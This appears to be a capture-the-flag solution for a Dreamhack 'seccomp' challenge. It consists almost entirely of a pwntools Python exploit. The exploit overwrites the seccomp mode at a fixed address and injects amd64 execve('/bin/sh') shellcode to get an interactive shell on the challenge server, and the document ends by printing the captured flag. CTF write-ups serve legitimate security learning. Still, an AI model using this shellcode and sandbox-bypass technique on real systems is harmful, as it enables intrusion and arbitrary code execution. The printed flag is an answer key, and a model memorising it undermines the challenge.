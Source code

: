 ```python 
from pwn import *
# p = process('./seccomp')
p = remote('host3.dreamhack.games', 19090)

# gdb.attach(p, gdbscript = '''
# b*main+150
# c        
           
# ''')

# input()

shellcode = asm(
    '''
    mov rax , 29400045130965551
    push rax

    mov rax, 0x3b
    xor rsi, rsi
    xor rdx, rdx
    mov rdi, rsp
    syscall
    ''', arch='amd64')

mode = 0x602090

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'addr: ', str(mode))
p.sendlineafter(b'value: ', b'5')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'shellcode: ', shellcode)
p.sendlineafter(b'> ', b'2')


p.interactive()

# DH{22b3695a64092efd8845efe7eda784a4}

```

## Flag:

DH{22b3695a64092efd8845efe7eda784a4}





